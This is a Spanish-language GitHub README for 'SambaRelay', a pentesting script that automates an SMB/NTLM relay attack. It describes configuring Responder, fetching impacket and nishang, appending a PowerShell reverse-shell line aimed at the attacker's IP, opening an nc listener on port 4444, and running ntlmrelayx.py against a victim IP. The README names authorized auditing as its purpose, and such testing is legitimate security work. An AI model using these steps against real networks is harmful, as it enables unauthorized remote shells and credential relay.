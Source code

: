 
# SambaRelay

Canal de youtube  https://youtube.com/c/Anonimo501

Grupo en Telegram https://t.me/Pen7esting

## Samba Relay

Este script es creado para fines educativos o para hacer auditorias profesionales de pentesting a nivel empresarial, no me hago responsable del mal uso de dicho  script, este script automatiza la modificacion del archivo Responder.conf en los valores SMB = Off y HTTP = Off, locual lo deja a la escucha, tambien descarga automaticamente https://github.com/SecureAuthCorp/impacket y descarga https://github.com/samratashok/nishang en nishang ingresa a nishang/Shells/ copia el archivo y lo renombra cp Invoke-PowerShellTcp.ps1 PS.ps1, al archivo PS.ps1 se le añade una linea al final que es la siguiente  Invoke-PowerShellTcp -Reverse -IPAddress $hacker -Port 4444, se deja a la escucha un server http automaticamente con el siguiente comando python -m SimpleHTTPServer, dejamos nc a la escucha rlwrap nc -nlvp 4444, no es necesario instalar los requerimientos de impacket o nishang ya que el script lo hace automaticamente, tambien crea un archivo llamado targets.txt dentro de /impacket/examples el cual contiene la  ip victima y por ultimo se ejecutal ntlmrelayx.py para lograr el acceso.

Esta Version del script basicamente lo que se le añade es el menu de opciones que nos permite la ejecucion del script nuevamente sin tener que reinstalar todo desde cer0

El script se ejecuto sobre ParrotOS 4.10

![smb relay v2](https://user-images.githubusercontent.com/67207446/119186517-ce30ad00-ba3d-11eb-9faf-21401a143fbc.PNG)


## Uso

git clone https://github.com/Anonimo501/SambaRelay_V2.git

cd SambaRelay_V2/

chmod +x SMB_Relay_v2.sh

./SMB_Relay.sh


# Referencias

SecureAuth Corporation.https://github.com/SecureAuthCorp/impacket
SamratAshok.https://github.com/samratashok/nishang
